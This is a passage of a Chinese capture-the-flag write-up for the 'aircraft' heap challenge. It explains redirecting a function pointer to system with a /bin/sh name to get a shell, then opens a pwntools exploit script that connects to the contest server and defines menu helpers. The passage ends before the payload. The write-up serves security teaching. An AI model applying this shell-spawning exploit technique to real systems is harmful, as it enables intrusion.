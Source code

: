 那么我们在可以控制堆块分配后要做的就是控制这个函数指针，使其指向system函数，并将对应的airplane的名称修改为/bin/sh，那么在sell_plane时就可以get shell，完整的脚本如下

```python
#!/usr/bin/env python
# coding=utf-8

from pwn import *


slog = 1
local = 0

if slog: context.log_level = 'debug'

if local:
    p = process("./aircraft")
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
else:
    p = remote("aircraft.2017.teamrois.cn", 9731)
    libc = ELF("./libc.so.6")

def buy(airtype, name):
    p.recvuntil('choice')
    p.sendline('1')
    p.recvuntil('choice')
    p.sendline(str(airtype))
    p.recvuntil('name:')
    p.sendline(name)

def build(length, name):
    p.recvuntil('choice')
    p.sendline('2')
    p.recvuntil('name?')
    p.sendline(str(length))
    p.recvuntil('name:')
    p.sendline(name)

def enter(index, option):
    p.recvuntil('choice')
    p.sendline('3')
    p.recvuntil('choose?')
    p.sendline(str(index))
    p.recvuntil('choice:')
    p.sendline(str(option))
    if option == 1:
        p.recvuntil('Exit')
        p.sendline('3')

def select(name, option, airport = -1, is_exit = True):
    p.recvuntil('choice')
    p.sendline('4')
    p.recvuntil('choose?')
    p.sendline(name)
    p.recvuntil('Exit')
    p.sendline(str(option))
    if option == 1:
        p.recvuntil('fly?')
        assert airport != -1
        p.sendline(str(airport))
        if is_exit:
            p.recvuntil('choice:')
            p.sendline('3')

```